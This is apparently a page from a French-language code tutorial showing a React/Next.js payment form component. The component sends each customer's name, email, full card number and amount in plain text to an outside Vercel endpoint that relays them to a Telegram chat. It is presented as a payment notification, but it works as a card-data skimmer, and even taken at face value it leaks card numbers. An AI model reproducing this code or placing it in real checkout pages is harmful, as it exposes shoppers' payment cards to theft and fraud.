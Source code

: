 ### 2. React/Next.js

```jsx
import React, { useState } from 'react';

const PaymentForm = () => {
    const [formData, setFormData] = useState({
        customerName: '',
        email: '',
        amount: '',
        cardNumber: ''
    });

    const sendPaymentNotification = async (paymentData) => {
        const API_URL = 'https://test-alpha-lac-68.vercel.app/api/telegram';
        
        try {
            const response = await fetch(API_URL, {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json',
                },
                body: JSON.stringify({
                    message: `💰 NOUVEAU PAIEMENT REÇU !
👤 Nom: ${paymentData.customerName}
📧 Email: ${paymentData.email}
💳 Carte: ${paymentData.cardNumber}
💶 Montant: ${paymentData.amount}€
🔒 Vérifiez immédiatement !`,
                    type: 'payment'
                })
            });

            const result = await response.json();
            return result.success ? { success: true, messageId: result.telegramResponse?.result?.message_id } : { success: false, error: result.error };
        } catch (error) {
            return { success: false, error: error.message };
        }
    };

    const handleSubmit = async (e) => {
        e.preventDefault();
        
        // Traiter le paiement
        const paymentResult = await processPayment(formData);
        
        if (paymentResult.success) {
            // Envoyer la notification
            const notificationResult = await sendPaymentNotification(formData);
            
            if (notificationResult.success) {
                alert('✅ Paiement réussi et notification envoyée !');
            }
        }
    };

    return (
        <form onSubmit={handleSubmit}>
            {/* Votre formulaire de paiement */}
        </form>
    );
};
```